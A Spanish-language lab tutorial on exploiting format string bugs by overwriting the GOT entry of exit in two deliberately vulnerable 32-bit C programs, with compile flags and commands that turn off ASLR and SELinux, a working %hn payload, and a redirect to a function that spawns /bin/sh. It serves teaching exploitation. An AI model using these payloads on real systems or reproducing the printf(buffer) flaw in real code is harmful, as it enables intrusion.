Vulnerabilidad Format string usando GOT 2
void vuln(){
printf("Logrado\n");
}
int main(int argc, char **argv[]) {
char buffer[64];
fgets(buffer, sizeof(buffer), stdin);
printf(buffer);
exit(1);
}
gcc -m32 -mpreferred-stack-boundary=2 -fno-stack-protector -z execstack overflow.c -o overflow
Algunas veces es necesario desactivar selinux con setenforce 0, no es siempre, pero te resuelve algunos problemas, pero repito, no es necesario si no haz presentado algun problema extraño.
Vamos a explicar una representación de la memoria antes para entender que está pasando.
sysctl -w kernel.randomize_va_space=0
Para restaurar
setenforce 1
sysctl -w kernel.randomize_va_space=2
Vamos a explicar como podemos hacer una vulnerabilidad format string pero con otro escenario posible, vamos a realizar lo ya aprendido antes para verificar si es vulnerable
Si es vulnerable, vamos a cortar los datos de entrada.
Listo, ahora vamos a buscar GOT para saltar a la función vuln, usaremos masamunpex.
Vamos a utilizar el got de Exit que sería 0x0804b21c, vamos a verificar si es efectivo.
Al parecer si es efectivo, vamos a buscar cambiar la dirección de GOT por la de vuln, vamos a buscar la función de vuln usando gdb con info function.
Ya tenemos la dirección que es 0x08049196, pero ahora vamos a cambiarlo.
0x9196 -> 37270 decimal -> 37270 - 8 bytes (GOT) serían = 37262
0x0804 -> 2052 decimal
Pero aquí hay un problema -> 2052 - 37266 = -35214 -> FFFFFFFFFFFF7672
Esto no funciona, entonces ¿qué podriamos hacer?, sencillo... no necesitamos "0x0804", porque ya lo tenemos -> "0x0804b21c", ya solo debemos cambiar "0xb21c", ¿no crees?. Entonces... vamos a cambiar esto...
0x9196 -> 37270 decimal -> 37270 - 4 bytes (GOT) serían = 37266, porque solo usaremos los 4 bytes de "0xb21c".
Vamos a intentarlo así... $(python2 -c 'print "\x1c\xb2\x04\x08" + "%37266x%4$hn"')
No funcionó, pero hay momentos donde tenemos que salir de la caja, vamos a revisar las direcciones, las dos a modificar serían "\x1c\xb2\x04\x08" -> "\x1e\xb2\x04\x08", pero al parecer obtenemos el mismo resultado, entonces vamos a cambiar el rango de 37270 -> 37266.
Listo, solo era que se necesitaba alinear bien "%37270" -> "%37269" y ya, se activa la función.
Encontré un código parecido, vamos a resolverlo pero no usemos pwntool para entender mejor que hacemos.
void shell() {
system("/bin/sh");
}
void vuln() {
char buffer[512];
fgets(buffer, sizeof(buffer), stdin);
printf(buffer);
exit(1);
}
void deadcode() {
char *information = "The execution flow was redirected!";
printf(information);
exit(1);
}
int main(int argc, char **argv) {
vuln();
}
Repetimos lo mismo, hagamos el procedimiento de detectar la vulnerabilidad y acortar para facilitar el trabajo.
Listo, ahora usemos masamunpex para verificar un jump usando GOT.
Ok, ahora veamos si se sobrescribe usando la tecnica de formatstring.
Ahora, vamos a ver la dirección a reemplazar, que sería la dirección de shell <- "0x08049196", y vemos que repetimos lo mismo, no necesitamos reemplazar "0x0804", solo "0x9196" -> "37270", vamos a hacerlo.
Listo, activamos la shell dentro de la función shell. Pero hay un problema y es que no podemos hacer uso.
Podemos hacer algo para poner una especie de bloqueo para utilizarlo, pero para eso debemos guardar los datos en un archivo y activarlo usando cat, veamos.
Listo.